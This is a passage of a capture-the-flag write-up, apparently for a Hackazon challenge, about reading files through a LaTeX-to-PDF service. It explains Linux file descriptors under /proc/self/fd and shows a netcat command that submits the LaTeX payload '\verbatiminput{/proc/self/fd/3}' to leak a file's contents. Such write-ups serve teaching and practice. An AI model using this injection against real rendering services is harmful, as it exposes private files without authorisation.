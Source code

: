 ![](/assets/images/cv1.png)
<br>
Yes we can read files! We have "file descriptor" hint. On linux systems /proc/self/fd/ contains current processes file descriptors. On linux 0,1 and 2 is pre defined file descriptors:
```
0 	Standard input 	  STDIN_FILENO 	  stdin
1 	Standard output 	STDOUT_FILENO 	stdout
2 	Standard error 	  STDERR_FILENO 	stderr
```
Lets try next one.
```
$ nc portal.hackazon.org 17001 > deneme.pdf
\verbatiminput{/proc/self/fd/3}
```

![](/assets/images/cv2.png)
